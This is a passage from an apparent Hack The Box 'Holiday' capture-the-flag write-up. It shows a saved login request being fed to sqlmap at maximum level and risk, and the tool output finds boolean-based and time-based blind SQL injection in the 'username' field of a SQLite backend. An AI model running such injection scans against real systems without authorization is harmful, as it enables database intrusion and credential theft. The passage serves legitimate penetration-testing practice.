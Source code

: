 ![burp_save_to_file](/assets/images/2020-06-19-16-17-55.png)

Now use it with sqlmap

```text
root@kali:~/htb/holiday# sqlmap -r login.req --level=5 --risk=3
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 14:05:23 /2020-06-13/
[14:05:23] [INFO] parsing HTTP request from 'login.req'
[14:05:24] [INFO] testing connection to the target URL
[14:05:24] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:05:24] [INFO] testing if the target URL content is stable
[14:05:24] [INFO] target URL content is stable
[14:05:24] [INFO] testing if POST parameter 'username' is dynamic
[14:05:24] [WARNING] POST parameter 'username' does not appear to be dynamic
[14:05:24] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[14:05:24] [INFO] testing for SQL injection on POST parameter 'username'
[14:05:24] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:05:28] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[14:05:31] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[14:05:32] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT)' injectable (with --string="Invalid User")
[14:05:33] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'SQLite'
it looks like the back-end DBMS is 'SQLite'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
[14:05:40] [INFO] testing 'Generic inline queries'
[14:05:40] [INFO] testing 'SQLite inline queries'
[14:05:40] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[14:05:40] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[14:05:40] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[14:05:40] [INFO] testing 'SQLite > 2.0 OR time-based blind (heavy query)'

[14:06:38] [INFO] POST parameter 'username' appears to be 'SQLite > 2.0 OR time-based blind (heavy query)' injectable
[14:06:38] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:06:38] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:06:41] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[14:06:42] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[14:06:43] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[14:06:44] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
```